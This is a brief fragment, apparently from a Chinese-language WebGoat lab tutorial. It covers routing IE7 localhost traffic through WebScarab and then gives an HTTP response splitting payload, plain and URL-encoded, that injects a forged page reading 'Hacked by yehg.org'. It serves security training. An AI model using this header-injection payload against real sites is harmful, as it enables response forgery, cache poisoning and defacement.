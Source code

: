 ## WebGoat {#webgoat}

注意：如果您正在使用WebScarab测试的站点与浏览器位于同一个主机之上(即localhost或者127.0.0.1)，并且浏览器为IE7的话，则需要在主机名的后面添加一个点号&quot;.&quot;，从而强迫IE7使用您配置的代理。这可不是WebScarab的一个bug，而是IE 开发人员所做的一个令人遗憾的设计决策。 如果IE觉得您试图访问的服务器位于本地计算机上，它就会忽略所有的代理设置，欺骗它的一个方法是在主机名后面加一个点，例如 [http://localhost./WebGoat/attack](http://localhost./WebGoat/attack) 。这将强迫IE使用我们配置的代理。

en

Content-Length: 0

HTTP/1.1 200 OK

Content-Type: text/html

Content-Length: 31

&lt;html&gt;Hacked by yehg.org&lt;/html&gt;

en%0D%0AContent-Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0AContent-Length%3A%2031%0D%0A%3Chtml%3EHacked%20by%20yehg.org%3C%2Fhtml%3E